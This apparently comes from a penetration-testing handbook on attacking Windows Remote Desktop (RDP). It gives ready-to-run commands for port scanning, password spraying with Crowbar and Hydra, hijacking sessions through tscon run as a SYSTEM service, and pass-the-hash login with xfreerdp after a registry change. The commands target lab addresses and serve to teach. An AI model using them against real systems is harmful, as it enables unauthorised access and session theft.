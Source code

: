 ```yaml
---
title: "Attacking RDP"
type: handbook
weight: 5
---
```


[Remote Desktop Protocol (RDP)](https://en.wikipedia.org/wiki/Remote_Desktop_Protocol) is a proprietary protocol developed by Microsoft which provides a user with a graphical interface to connect to another computer over a network connection. It is also one of the most popular administration tools, allowing system administrators to centrally control their remote systems with the same functionality as if they were on-site. 

By default, RDP uses port `TCP/3389`.

### Enumeration

```bash
nmap -Pn -p3389 <ip-address>
```

### Misconfiguration

Since RDP takes user credentials for authentication, one common attack vector against the RDP protocol is password guessing.

Using the [Crowbar](https://github.com/galkan/crowbar) tool, we can perform a password spraying attack against the RDP service. 

#### Crowbar - RDP Password Spraying

```bash
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```

#### Hydra - RDP Password Spraying

```bash
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

#### RDP Login

```bash
rdesktop -u admin -p password123 192.168.2.143
```

### Protocol Specific Attacks

#### RDP Session Hijacking

![](rdp_session-1-2.jpeg)

To successfully impersonate a user without their password, we need to have `SYSTEM` privileges and use the Microsoft [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) binary that enables users to connect to another desktop session.

```bash
C:\htb> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

If we have local administrator privileges, we can use several methods to obtain `SYSTEM` privileges, such as [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) or [Mimikatz](https://github.com/gentilkiwi/mimikatz). A simple trick is to create a Windows service that, by default, will run as `Local System` and will execute any binary with `SYSTEM` privileges. We will use [Microsoft sc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) binary.

```bash
C:\htb> query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

[SC] CreateService SUCCESS
```

![](rdp_session-2-2.jpeg)

```bash
C:\htb> net start sessionhijack
```

### RDP Pass-the-Hash (PtH)

#### Adding the DisableRestrictedAdmin Registry Key

```bash
C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

![](rdp_session-5.webp)

```bash
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```

